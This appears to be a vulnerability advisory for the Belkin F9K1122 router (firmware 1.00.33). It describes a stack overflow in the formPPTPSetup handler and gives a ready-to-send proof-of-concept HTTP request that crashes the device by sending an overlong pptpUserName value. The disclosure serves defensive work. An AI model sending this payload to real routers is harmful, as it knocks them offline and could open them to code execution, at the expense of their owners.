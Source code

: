 # Belkin Vulnerability

Vendor:Belkin

Product:F9K1122

Version:1.00.33

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)



## Vulnerability description

We found an stack overflow vulnerability in Belkin router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `webs` binary:

In the router's `formPPTPSetup` function, `pptpUserName` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `pptpUserName` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `pptpUserName` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `pptpUserName` as **aaaaa......** , and the router will crash, such as:

```http
POST /goform/formPPTPSetup HTTP/1.1
Host: 192.168.1.5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 641
Origin: http://192.168.1.5
Connection: close
Referer: http://192.168.1.5/index2.asp
Upgrade-Insecure-Requests: 1

submit-url=&pptpConnect=&pptpDisconnect=&pptpIpMode=&HostName=&Mac=&pptpIPAddr=&pptpIPMaskAddr=&pptpDfGateway=&pptpGateway=&pptpUserName=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&pptpPassword=&pptpMTU=&pptpConnectType=&pptpIdleTime=&pptpConntID=&pptpBEZEQEnable=&wanMode=&redirect=&
```



## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>
